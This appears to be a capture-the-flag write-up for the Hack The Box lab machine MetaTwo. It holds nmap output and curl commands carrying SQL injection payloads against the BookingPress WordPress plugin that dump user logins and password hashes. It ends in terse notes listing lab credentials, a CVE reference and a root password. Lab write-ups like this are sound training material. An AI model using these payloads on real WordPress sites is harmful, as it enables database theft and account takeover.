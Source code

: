 # MetaTwo

---

## Enumeration

### Nmap

I started with an [nmap](https://nmap.org/) with `-sV` to scan services/versions, `-sC` to run default scripts, `-v` for verbose output and `-oN` to write output to a file `scan.nmap`.

The scan shows ports `21` which is FTP, port `22` which is SSH 8.4p1 running on a Debian based linux, and port 80 which is a nginx 1.18.0 based web server and it reveals the domain name of this service which is `metapress.htb` so I added this entry to my hosts file.

```bash
nmap -sV -sC -v -oN scan.nmap 10.129.235.53

PORT   STATE SERVICE VERSION
21/tcp open  ftp?
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 c4b44617d2102d8fec1dc927fecd79ee (RSA)
|   256 2aea2fcb23e8c529409cab866dcd4411 (ECDSA)
|_  256 fd78c0b0e22016fa050debd83f12a4ab (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://metapress.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### FTP

I tried connecting anonymousely to the FTP port but it requires authenticated login, so I moved on to the web server

### Web

I ran a `Gobuster` directory scan and got a bunch of results, first I started tinkering with the `/events/` directory. Found nothing really interesting in the `Gobuster` scan, so I used "wpscan" to scan the wordpress app.



Get a valid nonce from intercepted request on burpsuite

-> Get table names

```bash
curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=[YOUR NONCE]&category_id=33&total_service=-7502) UNION ALL SELECT group_concat(table_name),0,1,2,3,4,5,6,7 from information_schema.tables-- -' | grep user 
```

![Getting table names](img/0.png)

-> From WP: https://wordpress.org/support/article/resetting-your-password/
Looking for user_login, user_pass

```bash
curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=06acdaf5ad&category_id=33&total_service=-7502) UNION ALL SELECT group_concat(user_login),group_concat(user_pass),0,1,2,3,4,5,6 from wp_users-- -'
```

![Getting user info](img/1.png)

manager:partylikearockstar

--- Lateral movement;

CVE-2021-29447

creds in send_email.php

$mail->Username = "jnelson@metapress.htb";                 
$mail->Password = "Cb4_JmWM8zUZWMu@Ys";         

--> PrivEsc

══╣ Possible private SSH keys were found!
/home/jnelson/.passpie/.keys

https://github.com/marcwebbie/passpie

passphrase using PGP private key: blink182
write .pass contents to another file
passpie export

root pass: p7qfAZt4_A1xo_0x